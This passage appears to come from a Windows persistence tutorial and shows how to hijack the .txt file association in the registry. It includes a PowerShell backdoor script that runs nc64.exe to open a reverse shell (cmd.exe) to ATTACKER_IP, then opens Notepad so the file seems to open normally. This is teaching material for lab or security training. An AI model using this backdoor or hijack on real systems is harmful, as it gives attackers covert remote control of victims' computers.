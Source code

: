 We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile\`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` (`HKLM\Software\Classes\txtfile\shell\open\command`) where the default command to be run for files with that extension is specified:

![image](/img/WindowsLocalPersistence/6.png)

In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```backdoor2.ps1
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:

![image](/img/WindowsLocalPersistence/7.png)
